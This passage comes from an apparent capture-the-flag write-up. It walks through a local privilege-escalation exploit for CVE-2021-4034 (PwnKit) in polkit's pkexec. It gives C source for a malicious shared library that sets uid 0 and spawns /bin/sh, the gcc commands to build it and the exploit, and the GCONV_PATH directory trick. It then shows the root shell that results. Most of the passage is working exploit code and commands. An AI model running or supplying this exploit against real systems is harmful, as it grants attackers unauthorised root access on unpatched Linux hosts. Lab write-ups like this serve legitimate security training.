 ```c
{
	char * const args[] = { "/bin/sh", NULL };
	char * const environ[] = { "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/bin", NULL };
	setuid(0);
	setgid(0);
	execve(args[0], args, environ);
	exit(0);
}
```
Now we need to compile both snippets:
```console
[leonard@ip-10-10-40-207 ~]$ gcc -shared -fPIC -o pwnkit.so pwnkit.c
[leonard@ip-10-10-40-207 ~]$ gcc -o cve-2021-4034 cve-2021-4034.c
```
Before we can run the exploit, we need to set the necessary directory structure as follows:
```console
[leonard@ip-10-10-40-207 ~]$ echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
[leonard@ip-10-10-40-207 ~]$ mkdir -p "GCONV_PATH=."
[leonard@ip-10-10-40-207 ~]$ cp /usr/bin/true "GCONV_PATH=./pwnkit.so:."
```
Finally, we can run the actual exploit:
```console
[leonard@ip-10-10-40-207 ~]$ ./cve-2021-4034
sh-4.2# whoami
root
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),1000(leonard) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
As you can see, we have root privileges. From here, we can directly `cat` for the two flags to finish the challenge.




